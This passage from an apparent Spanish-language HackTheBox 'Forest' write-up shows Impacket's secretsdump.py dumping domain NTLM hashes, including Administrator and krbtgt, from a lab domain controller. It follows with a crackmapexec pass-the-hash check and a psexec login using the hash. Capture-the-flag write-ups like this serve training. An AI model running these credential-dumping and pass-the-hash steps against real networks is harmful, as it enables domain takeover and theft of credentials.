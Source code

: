 > A través de secretsdump.py volcamos los hashes 

```ps
❯ sudo ./secretsdump.py htb.local/elc4br4:elc4br4@10.10.10.161
[sudo] password for elc4br4: 
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

> crackmapexec smb -u userfile -H hash

Comprobamos que el hash de Administrador es válido

![](/assets/images/HTB/Forest-HackTheBox/crackmapexec.webp)

> Iniciar sesión con psexec.py usando el Hash

![](/assets/images/HTB/Forest-HackTheBox/psexec.webp)

